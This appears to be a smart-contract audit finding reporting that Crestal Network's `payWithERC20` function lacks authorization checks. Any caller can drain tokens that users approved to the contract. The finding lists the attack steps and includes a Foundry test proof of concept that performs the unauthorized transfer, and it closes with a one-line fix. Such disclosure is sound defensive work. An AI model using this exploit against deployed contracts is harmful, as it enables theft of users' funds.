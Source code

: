 Wobbly Red Lion

High

# Missing authorization checks in `Payment::payWithERC20` will cause complete loss of approved tokens for users

### Summary

Missing authorization checks in `Payment.sol` will cause complete loss of approved tokens for users as attackers can call `payWithERC20` to drain any approved allowances.



### Root Cause

In `Payment.sol` the `payWithERC20` function lacks authorization checks, allowing any caller to transfer tokens from arbitrary addresses:

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25

### Internal Pre-conditions

- User must have approved the Blueprint contract to spend their tokens

- Attacker must know about at least one address with active approvals

- Token contract must be ERC20 compliant



### External Pre-conditions

- No monitoring/revocation of suspicious token transfers

- Token contract doesn't implement callback approvals

### Attack Path

- Victim approves Blueprint contract to spend their tokens

- Attacker monitors blockchain for approval events
 
- Attacker calls payWithERC20 with victim's address as from parameter
 
- Contract transfers victim's tokens to attacker's address
 
- Attack repeats until victim's allowance is drained



### Impact

Approving users suffer 100% loss of approved token balances. Attacker gains all stolen tokens with minimal gas costs .

### PoC

put this code in your test folder 

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "../src/BlueprintCore.sol";
import "./MockERC20.sol";

contract PaymentVulnerabilityTest is Test {
    BlueprintCore blueprint;
    MockERC20 mockToken;
    
    // Test addresses
    address owner = address(0x1);
    address victim = address(0x2);
    address attacker = address(0x3);
    
    // Test amount
    uint256 approvalAmount = 1000 * 10**18; // 1000 tokens
    uint256 stolenAmount = 500 * 10**18;    // 500 tokens
    
    function setUp() public {
        // Deploy contracts
        blueprint = new BlueprintCore();
        mockToken = new MockERC20();
        
        // Setup victim with tokens and approvals
        mockToken.mint(victim, approvalAmount);
        
        vm.startPrank(victim);
        // Victim approves the blueprint contract to spend their tokens
        // This would typically happen when interacting with the contract legitimately
        mockToken.approve(address(blueprint), approvalAmount);
        vm.stopPrank();
    }
    
    function test_payWithERC20_unauthorized_transfer() public {
        // Verify victim's initial balance
        assertEq(mockToken.balanceOf(victim), approvalAmount, "Victim should have initial tokens");
        assertEq(mockToken.balanceOf(attacker), 0, "Attacker should have no tokens initially");
        
        // Verify the victim has approved the blueprint contract
        assertEq(mockToken.allowance(victim, address(blueprint)), approvalAmount, "Victim should have approved blueprint");
        
        console.log("Initial state verified - victim has tokens and has approved the contract");
        
        // Attacker calls payWithERC20 directly to steal tokens
        vm.startPrank(attacker);
        console.log("Attacker calling payWithERC20 to steal tokens...");
        
        // The attacker is able to transfer tokens from the victim to themselves
        // without being authorized to do so
        blueprint.payWithERC20(
            address(mockToken),    // token address
            stolenAmount,          // amount to steal
            victim,                // from the victim
            attacker               // to the attacker
        );
        vm.stopPrank();
        
        // Verify the theft was successful
        assertEq(mockToken.balanceOf(victim), approvalAmount - stolenAmount, "Victim should have lost tokens");
        assertEq(mockToken.balanceOf(attacker), stolenAmount, "Attacker should have gained tokens");
        
        console.log("Vulnerability confirmed - attacker stole tokens from victim without authorization");
    }
} 

```

### Mitigation

Add authorization check  or make the `payWithERC20` internal